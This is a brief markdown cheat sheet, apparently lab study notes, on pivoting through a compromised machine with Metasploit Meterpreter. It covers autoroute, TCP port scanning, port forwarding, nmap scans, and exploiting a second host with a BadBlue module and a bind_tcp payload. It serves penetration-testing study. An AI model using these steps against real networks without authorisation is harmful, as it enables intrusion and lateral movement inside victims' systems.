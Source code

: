 # Pivoting with Meterpreter
Gaining access to a system on an internal network using a different machine you have access to.  

1. Copy the IP address of the victim1 interface
2. Add a route with meterpreter -- ```run autoroute -s (IP address subnet range, example 192.168.1.0)/subnet```
3. Background meterpreter session
4. Use portscan module to scan for open ports on the target
   - Module: **auxiliary/scanner/portscan/tcp**
5. set RHOSTS to victim2
6. run

Forward port 80
1. Go to session 1
2. ```portfwd add -l 1234 -p 80 -r (victim 2 IP)```
3. Run db_nmap scan ```db_nmap -sS -sV -p 1234 localhost```
4. Alternatively you can run just nmap form the local host -- ```nmap -sS -sV -p 1234 localhost```

Exploiting
1. Use Badblue module
2. set payload to bind instead of reverse TCP -- ```windows/meterpreter/bind_tcp```
3. Set RHOSTS to Victim 2
4. update LPORT to a different port
